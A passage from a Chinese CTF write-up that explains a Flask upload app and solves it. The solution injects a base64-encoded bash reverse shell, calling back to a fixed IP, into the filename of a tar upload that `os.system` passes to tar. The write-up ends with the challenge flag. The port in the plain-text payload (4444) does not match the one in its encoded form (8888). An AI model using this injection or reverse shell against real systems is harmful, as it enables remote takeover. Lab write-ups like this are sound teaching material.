                os.remove(extractedfile)
                return 'no symlink'
            if  os.path.isdir(path) :	#使用os.path.isdir函数判断path变量是否是一个目录，如果是目录就返回'no directory'
                return 'no directory'
            links.append(extractedfile)	#将当前文件的路径添加到 links 列表中
    return render_template('index.html',links=links)	#完成遍历后，将收集到的文件路径传递给名为 index.html 的模板，用于渲染页面显示这些文件的链接
@app.route("/uploads/<path:path>",methods=['GET'])	#指定了一个路由 /uploads/<path:path>，当用户通过 GET 请求访问这个路由时，会执行相应的处理逻辑	
def download(path):	#定义了一个download()函数，接受一个path的参数，表示要下载的文件路径
    filepath = os.path.join(app.config['UPLOAD_FOLDER'], path)	#使用os.path.join函数，将app.config['UPLOAD_FOLDER']变量和path变量进行拼接，即要下载文件的完整路径，并赋值给filepath变量
    if not os.path.isfile(filepath):	#使用os.path.isfile函数，判断filepath变量所指的文件是否存在，如果不存在就返回'404'，表示文件不存在
        return '404', 404
    return send_from_directory(app.config['UPLOAD_FOLDER'], path)	#如果文件存在，使用send_from_directory函数从指定目录中发送文件给客户端进行下载，这里是uploads目录里的path变量所指的文件，举例：如果'path=1.txt'那么要下载的文件就是'/uploads/1.txt'，这个函数会发送文件给客户端，实现文件下载的功能
if __name__ == '__main__':	#检查当前模块是否作为主程序执行。当 Python 解释器执行一个脚本时，__name__ 变量会被设置为 '__main__'表示执行下面的代码
    app.run(host='0.0.0.0',port=1337)	#启动 Flask 应用程序，使其在所有网络接口上监听端口 1337，以便接受来自网络的请求
```

#### 题解

- 首先我们访问index路由，发现可以上传文件,然后查看源码可知可利用的点是`os.system(‘tar --absolute-names -xvf {} -C {}’.format(savepath,directory))`

- 这一行代码，当解压的时候，如果我们利用管道符 ` | `去拼接命令，所以我们在进行抓包，修改文件名，进行拼接我们的反弹shell

- 我们先根据要求上传一个tar文件，然后进行抓包，对包内容进行修改



- 我们在文件名后添加`bash -c 'bash -i >& /dev/tcp/10.202.140.196/4444 0>&1'`在进行了base64编码后的结果，`1.tar | echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMDIuMTQwLjE5Ni84ODg4IDA+JjEn | base64 -d | bash |`



- 先进行监听操作，再发送报文就可以反弹shell，最后在根目录下得到flag

#### 答案

```
NSSCTF{f27d216d-6ffb-4e1c-80fa-e7ffcffcd554}
```
